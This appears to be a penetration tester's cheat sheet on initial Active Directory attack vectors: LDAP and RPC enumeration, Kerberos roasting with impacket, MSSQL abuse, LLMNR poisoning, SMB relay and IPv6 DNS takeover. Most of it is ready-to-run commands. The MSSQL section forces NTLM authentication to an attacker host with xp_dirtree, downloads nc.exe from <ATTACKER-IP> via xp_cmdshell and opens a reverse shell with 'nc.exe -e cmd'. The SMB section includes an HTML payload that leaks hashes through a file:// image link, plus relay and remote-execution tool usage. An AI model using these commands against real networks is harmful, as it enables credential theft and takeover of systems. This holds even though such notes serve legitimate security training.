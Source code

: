 # Phase 0:  Initial attack vectors
---
## Navigation
- **[[#Services enumeration]]**
- **[[#Attacks]]**
	- [[#1-Kerberos]]
	- [[#2-Microsoft SQL Server]]
	- [[#3-LLMNR Poisoning]]
	- [[#4-SMB Relay attack]]
	- [[#5-IPv6 DNS Takeover]]

---
# Services enumeration
## LDAP
- Dumping LDAP Objects -> [**LDAP**](https://book.hacktricks.xyz/pentesting/pentesting-ldap)
 ```bash
 #install -> pip install ldapdomaindump
 ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
 ```
** Adding records**
- Preferred Tool [**dnstoolpy**](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)
```bash
dnstool.py -u DOMAIN\\USERNAME -p PASSWORD -r FAKESYSTEM.FQDN -a add -d YOUR_IP [DC_HOSTNAME/VICTIM-IP]
```
 ## RPC
- Commands -> [**RPC**](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/) 
```txt
#Connecting
rpcclient <ip> -U <username>

#Enumerate domain users
enumdomusers

#Enumerate domain groups
enumdomgroups
```
-  Automation tool -> [**RPCrecon**](https://github.com/m4lal0/RPCrecon)

---
# Attacks
## 1-Kerberos
What is `TGT` and `TGS`?
A *Ticket Granting Ticket (TGT)* or Ticket to Get Tickets (TGT) are files created by the *key distribution center (KDC)* portion of the Kerberos authentication protocol. ... Once a user is authenticated and has the TGT, they use it to obtain a service ticket from the *Ticket Granting Service (TGS)*.

### Synchronizing time is important
```bash
#Disable time sync on VM
sudo apt install ntpdate
ntpdate <RemoteMachine-IP>
```
### Enumeration
- Bruteforcing -> [**Kerbrute**](https://github.com/ropnop/kerbrute)
 ```txt
 go get github.com/ropnop/kerbrute
```
- **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 - **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
 - **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 ```
 - **impacket-GetADUSers.py**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes. 
 -- *If no entries are returned that means users don’t have email addresses specified*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 ```
 - Tutorial -> [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- Cheatshet -> [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
---
## 2-Microsoft SQL Server
```bash
impacket-mssqlclient <DOMAIN>/<USER>:<PASSWORD>@<IP>
```
### Capturing NTLM hashes
**Pre-requesties**
- Having access to the server.
- Downloading -> [**Responder.py**](https://github.com/SpiderLabs/Responder)

 1- Running Responder
```bash
sudo responder -I tun0 
```
 2- Starting an HTTPSever
```bash
sudo python3 -m httpserver 80
```
 3- Listing a fakeshare to trigger the protocol
```bash
xp_dirtree "\\<ATTACKER-IP>\meow
```
 4- Check Responder and take the hash :)
### Gaining a shell
You can execute commands on MsSQL server using:
```bash
EXEC xp_cmdshell '<COMMAND'
```
Then you can upload a `nc.exe`:
```bash
EXEC xp_cmdshell 'powershell -c curl http://<ATTACKER-IP>/nc.exe -o <PATH>'
```
Then trigger it:
```bash
EXEC xp_cmdshell '<PATH>/nc.exe -e cmd <ATTACKER-IP> <PORT>'
```
---
## 3-LLMNR Poisoning
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]
### Exploitation
- Use responder to MITM and recieve the hash -> [**Responder.py**](https://github.com/SpiderLabs/Responder)
- [**Tool**](https://github.com/m4lal0/smbrelay)
### Mitigation
- See MITRE **[[#Refrences]]** below.
---
## 4-SMB  Relay attack
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
### Checking if SMB signing id disabled
```bash 
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
### Exploitation
- Either by waiting for somenone to mistyping a domain or by sending an html payload file
#### HTML payload file
```html
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
####  Tool
```bash
smbrelayx.py -h 10.0.0.6 -c "ipconfig" # 'c' is optional to execute commands.
```
### Gaining an shell
```bash
#Tools (Require password)
wmiexec #-> stealthier (Can be used to PASSTHEHASH and get a shell)
psexec #-> stealthier
smbexec #-> not stealthy
```
---
## 5-IPv6 DNS Takeover
Useful and important
- [**Delegation attack**](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [**Attack**](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

## Refrence
- [**BLOG Explaning various techniques**](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
- [**LLMNR Poison MITRE**](https://attack.mitre.org/techniques/T1557/001/) **&**  [**LLMNR Poison Meduim**](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
- [**SMB Relay**](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)